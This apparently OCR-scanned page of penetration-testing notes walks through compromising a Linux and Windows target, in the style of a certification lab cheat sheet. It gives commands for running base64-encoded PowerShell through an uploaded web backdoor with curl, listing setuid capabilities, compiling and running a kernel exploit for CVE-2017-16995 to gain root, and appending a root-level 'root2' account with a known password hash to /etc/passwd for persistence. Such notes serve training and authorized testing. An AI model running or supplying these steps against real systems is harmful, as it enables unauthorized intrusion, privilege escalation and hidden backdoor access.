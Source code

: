 ```
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
```
```
$EncodedText =[Convert]::ToBase64String($Bytes)
```
```
$EncodedText
```
this prints out the encoded cmd, then you run it using 
```
curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20<base64 encoded cmd>
```


### Abusing Setuid Binaries and Capabilities
list all binaries with setuid capabilities enabled
```
/usr/sbin/getcap -r / 2>/dev/null
```

### Exploiting Kernel Vulnerabilities

 gather information about our Ubuntu target by inspecting the **/etc/issue** file
```
cat /etc/issue
```
```
uname -r
```
```
arch
```

```
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"
```
COMPILING THE EXPOIT
```
gcc cve-2017-16995.c -o cve-2017-16995
```
```
file cve-2017-16995
```
```
./cve-2017-16995
```
and we should get root
### ADDING ANOTHER USER
we will add another superuser (root2) 
```
openssl passwd w00t
```
it outputs the has
```
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
```
then we log in as that user
```
su root2
```

